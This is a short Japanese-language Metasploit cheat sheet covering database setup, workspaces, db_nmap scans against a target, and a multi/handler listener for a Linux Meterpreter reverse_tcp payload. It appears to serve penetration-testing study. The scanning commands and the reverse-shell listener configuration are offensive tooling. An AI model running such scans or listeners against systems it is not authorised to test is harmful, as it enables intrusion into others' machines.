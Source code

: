# Metasploit

## metasploit の基礎

### postgresql

起動しておくと、metasploit が DB を使えるため実行速度が上がる

```shell
# postgresql を開始
sudo service postgresql start

# DB 初期化
sudo msfdb init

# 状態
msf6 > db_status

# Workspace 表示、切り替え、追加、削除、ヘルプ
msf6 > workspace
msf6 > workspace example
msf6 > workspace -a example
msf6 > workspace -d example
msf6 > workspace -h

# db_nmap で nmap を実行すると、結果がDBに保存される
msf6 > db_nmap -sS $TARGET
# その後、下記で表示できる。-h でヘルプ表示。
msf6 > hosts
msf6 > services
msf6 > services -S <service-name>
# hosts -R で、RHOSTS に設定できる
msf6 > hosts -R
```

### console 起動

```shell
msfconsole
```

### マルチハンドラーで Listen

```shell
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 10.2.22.182
set LPORT 9001
# -j を付けることでバックグラウンドで起動できる
exploit -j
```
